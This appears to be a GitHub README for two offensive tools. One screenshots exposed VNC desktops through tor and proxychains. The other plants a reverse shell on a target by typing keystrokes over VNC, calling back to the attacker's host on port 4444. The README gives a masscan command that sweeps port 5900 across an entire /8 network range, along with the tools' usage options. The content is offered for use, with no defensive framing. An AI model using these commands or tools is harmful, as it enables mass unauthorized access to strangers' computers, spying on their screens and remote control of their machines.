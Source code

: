 # vncshooter & vncshitter


**vncshooter** will parse a textfile containing target ip's, extract all ip's, attempt to connect to the target and take a screenshot. (requires tor, proxychains, vncsnapshot)

**vncshitter** can automatically place a reverse shell on a target, by sending keystrokes over a vnc connection (requires vncdotool)




use masscan to gather target ip's


    sudo masscan -p5900 85.0.0.0/8 --resume paused.conf --rate 10000 >> 85.output
    
    
    
use vncshooter to take screens
    
    
    ./vncshooter 85.output



use vncshitter to deploy a shell


    Usage: ./vncshitter --rhost=x.x.x.x [--rport=5900] [--lhost=x.x.x.x] [--rport=4444] [--platform=linux-gui]

    [rhost] = Remote ip (required)
    [rport] = Remote port (default: 5900)
    [lhost] = Local host to bind default shell to (default: your external ip)
    [lport] = Local port to bind default shell to (default: 4444)
    [platform] = (default: linux-gui)
                 linux-gui: will work on default ubuntu etc (using alt+ctrl+t -> terminal -> payload)
                 win: will work on win7+ (using windows_key+r -> run -> cmd -> payload)
